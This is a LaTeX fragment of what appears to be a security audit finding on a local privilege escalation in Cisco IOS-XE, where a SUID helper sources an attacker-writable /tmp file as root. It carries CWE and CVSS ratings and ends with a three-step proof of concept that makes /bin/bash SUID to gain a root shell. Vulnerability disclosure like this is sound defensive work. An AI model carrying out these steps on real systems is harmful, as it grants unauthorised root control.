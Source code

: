 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{CAT9K-F14: \texorpdfstring{\texttt{bexecute}}{bexecute} SUID Whitelist --- \texorpdfstring{\texttt{shell\_exec.sh}}{shell\_exec.sh} \texttt{/tmp} TOCTOU Local Privilege Escalation}

\begin{overviewbox}
The \texttt{bexecute} SUID binary (rwsr-sr-x root/root) whitelists \texttt{shell\_exec.sh}
in . When invoked, \texttt{shell\_exec.sh} constructs a
file path as \texttt{/tmp/.shell\_exec.\$\{args\_id\}} where \texttt{args\_id} is the
caller-supplied first argument, then bash-sources that file with root effective UID.
The \texttt{/tmp} directory is world-writable. Pre-creating the args file with malicious
content before invoking \texttt{bexecute} delivers arbitrary code execution as root from
any low-privileged IOS-XE shell user.

\href{https://cwe.mitre.org/data/definitions/377.html}{CWE-377} (Insecure Temporary File),
\href{https://cwe.mitre.org/data/definitions/362.html}{CWE-362} (Race Condition),
\href{https://cwe.mitre.org/data/definitions/269.html}{CWE-269} (Improper Privilege Management)\\
\textbf{CVSS~3.1:} 7.8 High \quad CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
\end{overviewbox}

\subsubsection{Technical Evidence}

 sources an attacker-controlled file from \texttt{/tmp} with root euid.

\begin{pocbox}{Confirmed via Static Analysis of IOS-XE 17.18.04 bigbang/usr/binos/conf/shell\_exec.sh}
\begin{lstlisting}[style=bash]
# shell_exec.sh line 28-45 (abbreviated)
args_id="${1}"                             # caller-controlled, no sanitization
args_file="/tmp/.shell_exec.${args_id}"   # world-writable /tmp path

# ...
source "${args_file}"   # sourced as bash with root euid via bexecute SUID
# ...
rm -f "${args_file}"    # cleanup destroys evidence after execution

# Attack:
# 1. echo 'chmod +s /bin/bash' > /tmp/.shell_exec.exploit
# 2. bexecute shell_exec.sh exploit
# => /bin/bash is now SUID; /bin/bash -p delivers root
\end{lstlisting}
\end{pocbox}
\end{document}

